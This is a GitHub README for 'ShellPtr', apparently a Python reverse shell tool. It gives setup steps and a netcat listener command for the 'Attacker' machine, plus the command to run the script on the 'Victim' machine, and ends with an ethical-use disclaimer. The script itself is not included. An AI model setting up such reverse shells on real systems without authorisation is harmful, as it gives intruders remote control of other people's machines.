 <div align="center">
  
![version](https://img.shields.io/badge/Version-1.1.0-informational?style=flat&logo=&logoColor=white&color=red) ![stars](https://img.shields.io/github/stars/PwnHash/ShellPtr?style=social) ![forks](https://img.shields.io/github/forks/PwnHash/ShellPtr?label=Forks&logo=&logoColor=white&color=blue) ![languages](https://img.shields.io/github/languages/count/PwnHash/ShellPtr?style=social&logo=&logoColor=white&color=blue) ![issues](https://img.shields.io/github/last-commit/PwnHash/ShellPtr?style=flat&logo=&logoColor=white&color=blue) ![platform](https://img.shields.io/badge/Platform-Linux-informational?style=flat&logo=&logoColor=white&color=green) 
  
</div>


## Getting Started 
- 1 ) `Clone` The `Repo` 
```
git clone https://github.com/PwnHash/ShellPtr.git
```
- 2 ) You Need To `Navigate To` The `ShellPtr Directory`
```
cd ShellPtr
```
- 3 ) `Change` The `IPv4 Address` In The Script

- 4 ) This `Reverse Shell` Needs `Requirements`, Install Them Using The Following Command
```
pip install -r requirements.txt
```
### If The Steps Above Are Done:
---
- On The `Attacker` Machine:
```
nc -lnvp 5003
```
- On The `Victim` Machine:
```
python3 shellptr.py
```

# :warning: Note:
- This tool is for educational and ethical purposes only. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

<div align="center">

---
  
### Tested on 5.18.0-kali3-amd64, 5.15.0-48-generic-Ubuntu
  
---
  
</div>
